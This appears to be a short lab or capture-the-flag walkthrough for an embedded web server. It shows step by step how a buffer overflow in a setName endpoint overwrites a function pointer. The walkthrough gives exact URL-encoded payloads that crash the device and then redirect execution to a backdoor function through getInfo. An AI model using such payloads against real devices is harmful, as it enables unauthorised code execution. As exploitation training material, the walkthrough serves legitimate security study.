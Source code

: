## Scenario

Global variable: projectName -> Buffer overflow -> Overwrite functionInformation.funcPtr -> Call getInfo to run  functionInformation.funcPtr pointer

### setName has a buffer overflow

This will trigger buffer overflow overwriting next memory region's function pointer.

http://192.168.4.1/setName?name=%C1%C2%C3%C4%C5%C6%C7%C8%C9%CA%CB%CC%CD%CE%CF%D0%D1%D2%D3

The function will be used by getInfo. The following request should trigger system crash.
http://192.168.4.1/getInfo

### Now locate backdoor function from disassembly and use it for function pointer overwrite

if _Z8Backdoorv is located @400d1dcc

The address in URI format will be: %cc%1d%0d%40

http://192.168.4.1/setName?name=%C1%C2%C3%C4%C5%C6%C7%C8%C9%CA%CB%CC%CD%CE%CF%cc%1d%0d%40

### Trigger function pointer call to run _Z8Backdoorv function

Call getInfo:
http://192.168.4.1/getInfo


